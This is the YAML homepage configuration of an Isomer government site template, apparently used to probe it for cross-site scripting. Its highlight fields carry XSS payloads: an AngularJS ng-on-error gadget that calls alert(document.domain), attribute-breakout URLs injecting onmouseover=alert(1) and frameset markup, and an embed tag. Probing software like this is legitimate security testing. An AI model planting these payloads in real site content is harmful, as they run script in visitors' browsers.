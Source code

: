 ```yaml
---
layout: homepage
title: "tttttttttttest: fff3333"
description: An Isomer site of the Singapore Government
image: /images/isomer-logo.svg
permalink: /
notification: ffffff<b>ffff</b>
sections:
  - hero:
      title: Hero title
      subtitle: Hero subtitle
      background: /images/hero-banner.png
      button: Contact Us
      url: /contact-us/
      key_highlights:
        - abcdef: "abcd\n\r\n\rtesttest"
          abcd: abcd
          title: Highlight A
          description:
            <embed>src: fffff
          url: https://google.com/ttt"'>testframesetfffffewfewf213
        - title: Highlight B
          description: <script
            src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.3/angular.js"></script>
            <img data-ng-app=""
            data-ng-on-error="$event.target.ownerDocument.defaultView.alert($event.target.ownerDocument.defaultView.document.domain)"
            src="x">
          url: https://test.com/" onmouseover=alert(1) >newAttribute
        - title: Page A
          description: Page A is important too
          url: /privacy/
  - infobar:
      title: Infobar title
      subtitle: Subtitle
      description: About a sentence worth of description here
      button: Button text
      url: /faq/
  - resources:
      title: Resourcesffff
      subtitle: fffff
      id: resources
      button: ffff
---
```

